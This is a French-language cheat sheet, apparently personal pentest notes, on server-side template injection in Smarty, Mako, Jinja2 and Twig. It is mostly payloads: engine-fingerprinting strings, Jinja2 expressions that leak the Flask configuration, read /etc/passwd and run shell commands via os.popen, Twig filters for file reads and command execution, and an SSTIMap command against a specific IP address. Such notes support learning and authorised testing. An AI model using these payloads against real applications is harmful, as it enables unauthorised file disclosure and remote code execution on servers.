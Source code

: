 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

[[#Identifier une SSTI]]
[[#Identifier le Moteur de Template utilisé]]
[[#Exploiter une SSTI]]
[[#Automated SSTI]]

# Identifier une SSTI

> [!TIP]
> Si message d'erreur en injectant des caractères spéciaux, alors potentiellement vulnérable ! (Méthode similaire à une SQLi)

### String test

```
${{<%[%'"}}%\.
```


# Identifier le Moteur de Template utilisé

![[Pasted image 20250225165029.png]]

## Payloads

Smarty ou Mako

```
${7*7}
```

Jinja2 ou Twig

```
{{7*7}}
```

---
### Smarty

```
a{*comment*)b
```
### Mako

```
${"z".join("ab")}
```

---
### Jinja2

Résultat = 7777777

```
{{7*'7'}}
```
### Twig

Résultat = 49

```
{{7*'7'}}
```

# Exploiter une SSTI

## Jinja2

Jinja2 = Souvent utilisé avec Framework Python comme Flask et Django 

### Fuiter la configuration Web
#### Flask

```jinja2
{{ config.items() }}
```

### Fuiter les fonctions built-in
#### Flask

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

### LFI (Local File Inclusion)
#### Flask

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### RCE (Remote Code Execution) 
#### Flask

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


---

## Twig

Twig = Souvent utilisé avec Framework Php comme Symfony

### LFI (Local File Inclusion)

#### Symfony

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

### RCE (Remote Code Execution) 

```twig
{{ ['id'] | filter('system') }}
```



# Automated SSTI

## SSTIMap

```bash
python3 sstimap.py -u http://83.136.255.243:39076/index.php?name=test
```
